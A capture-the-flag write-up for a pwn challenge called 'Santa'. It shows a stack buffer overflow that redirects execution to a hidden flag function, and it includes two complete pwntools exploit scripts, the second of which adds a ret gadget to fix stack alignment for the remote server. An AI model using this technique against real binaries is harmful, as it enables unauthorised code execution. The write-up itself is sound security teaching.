




# Santa [Pwn]

Attached file:[here](datas/santa)

Output of checksec

```sh
$ checksec santa
```


The NX is enabled, so we can't run anything on the stack, but off the stack.

In this case, we will target the RSP.

Let's run the binary.


Santa's C code obtained by reverse engineering with ghidra.



I found a flag function.



Here, we will have to cause a buffer overflow and execute the code of the flag function.

To reach the RSP: "A" * 0x38 + "BBBBBBBB"

We can see that the RSP is reached.

We can now write our exploit to execute the flag function.

Address of flag function : 0x00401152

You can find it in gdb with the command :
```sh
info functions
```


Exploit:

```python
from pwn import *

#sh = remote("server.challenge.ctf.thefewchosen.com",1340)
sh = process("./santa")
payload = b"A"*(0x38) + p64(0x00401152)

print(sh.recv().decode())
sh.sendline(payload)
print(sh.recv().decode())
```
Result:



But there is a problem.

When I used it on the remote server, it did not work.

```
[*] Got EOF while reading in interactive
```
##### Movaps stack alignment

If you're segfaulting on a movaps instruction in buffered_vfprintf() or do_system() in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as printf() or system()[Read more...](https://ropemporium.com/guide.html)

The solution is to call the ret of an another function one more time before calling the flag() function when designing the overflow stack, so that the rsp address can be reduced by 8.

I used the return address from init.

To find it: ```objdump santa -M intel --disassemble=_init```



New exploit:


```python
from pwn import *

sh = remote("server.challenge.ctf.thefewchosen.com",1340)
#sh = process("./santa")
payload = b"A"*(0x38) + p64(0x00401016) + p64(0x00401152)

print(sh.recv().decode())
sh.sendline(payload)
print(sh.interactive())
```
